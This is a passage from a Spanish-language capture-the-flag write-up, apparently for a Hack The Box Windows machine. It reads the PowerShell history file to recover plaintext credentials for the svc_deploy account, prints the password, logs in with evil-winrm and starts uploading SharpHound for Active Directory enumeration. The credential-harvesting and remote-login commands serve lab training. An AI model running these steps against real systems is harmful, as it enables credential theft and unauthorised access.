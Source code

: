 Enumerando el sistema podremos encontrar el historial de la `powershell` en donde encontraremos las credenciales del usuario `svc_deploy` 

```php
*Evil-WinRM* PS C:\users\legacyy> type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![20240306124703.png](20240306124703.png)

Para enumerar adecuadamente puedes revisar el siguiente contenido:

- [https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#passwords-stored-in-key-manager](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#passwords-stored-in-key-manager)

## Usuario : svc_deploy

Una vez encontrada las credenciales podremos ingresar como este usuario con `evil-winrm`

```php
svc_deploy: E3R$Q62^12p7PLlC%KWaxuaV
```

```php
❯ evil-winrm -S -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

![20240306161636.png](20240306161636.png)

Ahora procederemos a enumerar con `bloodHound`, por lo que usaremos primero `SharpHound`.

### SharpHound

En este caso subiremos el binario de `SharpHound.exe` a la maquina victima
